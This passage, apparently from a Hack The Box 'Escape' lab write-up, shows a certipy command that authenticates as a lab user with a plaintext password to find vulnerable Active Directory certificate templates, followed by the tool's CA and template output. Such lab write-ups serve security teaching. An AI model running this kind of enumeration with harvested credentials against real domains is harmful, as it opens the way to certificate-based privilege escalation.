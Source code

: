 ```bash
certipy find -u ryan.cooper -p "NuclearMosquito3" -dc-ip 10.129.228.253 -vulnerable -text -enabled
```

![image.png](/assets/images/Escape_HTB/image%2019.png)

The output got saved in txt file.

OUTPUT:

```text
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
```
